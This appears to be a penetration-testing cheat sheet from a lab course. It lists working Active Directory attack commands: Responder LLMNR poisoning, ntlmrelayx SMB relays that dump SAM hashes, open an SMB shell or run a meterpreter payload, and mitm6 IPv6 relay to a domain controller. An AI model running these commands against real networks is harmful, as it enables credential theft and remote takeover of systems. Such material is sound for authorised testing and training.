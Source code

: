 ### Active Directory

#### LLMNR Poisoning
```
# Linked Local Multi-cast Name Resolution Poisoning using Impacket tool, Responder.
# Run this first thing, even before as it will capture generated traffic.

# Capture NTLMv2 Hash with Responder. Start listening for events
responder -I eth0 -rdw
```

#### SMB Relay. User must be admin on both machines.
```
# SMB signing must be disabled.
nmap --script=smb2-security-mode.nse -p445 <ip>

# Set /usr/share/responder/Responder.conf SMB=Off HTTP=Off. Then run
responder -I eth0 -rdw

# Add IP's from nmap to targets.txt. Run the relay and wait for an event to happen
# It will return the SAM hashes
python ntlmrelayx.py -tf targets.txt -smb2support
```

#### SMB Relay to an SMB Shell
```
# As above, except for ntlmrelayx
python ntlmrelayx.py -tf targets.txt -smb2support -I

# Once the event is triggered, an interactive SMB shell will be created at an ip eg. 127.0.0.1:11000
nc 127.0.0.1 11000

# Can then use SMB share commands to interact
help
shares
use ADMIN$
ls
```

#### Other SMB Relay ntlmrelayx options
```
# Create a meterpreter shell and execute
python ntlmrelayx.py -tf targets.txt -smb2support -e payload.exe

# Execute a command
python ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

#### IPV6 Attacks
````
# git clone https://github.com/fox-it/mitm6.git then nav to directory
# pip3 install .
mitm6 -d marvel.local

# Now in a different terminal setup a relay attack
ntlmrelayx.py -6 -t ldaps://<domaincontrollerip> -wh fakewpad.marvel.local -l lootme

````
